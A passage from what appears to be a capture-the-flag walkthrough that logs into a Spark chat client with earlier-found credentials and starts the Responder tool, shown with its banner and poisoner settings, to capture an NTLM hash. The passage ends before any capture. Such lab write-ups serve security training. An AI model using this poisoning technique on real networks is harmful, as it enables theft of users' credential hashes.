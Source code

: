 ```
...
```

So Spark has started and we are asked for a username, a password and a domain. We already have those 3 informations :  
![](https://i.imgur.com/h8z0ILs.jpg)  

But if we try to connect we have an error :  
![](https://i.imgur.com/AtXEDQF.jpg)  

To ignore this error, we have to click on `Advanced`, and select those two options :  
![](https://i.imgur.com/Oxw9B8P.jpg)  

And we are connected !  
![](https://i.imgur.com/rnte1D9.jpg)  

Now, let's start [Responder](https://github.com/SpiderLabs/Responder) to capture the request that will contain a NTLM hash :  
```
attacker@AttackBox:~/Ra$ sudo responder.py -I tun0
[sudo] Mot de passe de attacker : 
                                         __
  .----.-----.-----.-----.-----.-----.--|  |.-----.----.
  |   _|  -__|__ --|  _  |  _  |     |  _  ||  -__|   _|
  |__| |_____|_____|   __|_____|__|__|_____||_____|__|
                   |__|

           NBT-NS, LLMNR & MDNS Responder 2.3

  Author: Laurent Gaffie (laurent.gaffie@gmail.com)
  To kill this script hit CRTL-C

/!\ Warning: files/AccessDenied.html: file not found
/!\ Warning: files/BindShell.exe: file not found

[+] Poisoners:
    LLMNR                      [ON]
    NBT-NS                     [ON]
    DNS/MDNS                   [ON]

[+] Servers:
    HTTP server                [ON]
    HTTPS server               [ON]
    WPAD proxy                 [OFF]
    SMB server                 [ON]
    Kerberos server            [ON]
    SQL server                 [ON]
    FTP server                 [ON]
    IMAP server                [ON]
    POP3 server                [ON]
    SMTP server                [ON]
    DNS server                 [ON]
    LDAP server                [ON]

[+] HTTP Options:
    Always serving EXE         [OFF]
    Serving EXE                [OFF]
    Serving HTML               [OFF]
    Upstream Proxy             [OFF]

[+] Poisoning Options:
    Analyze Mode               [OFF]
    Force WPAD auth            [OFF]
```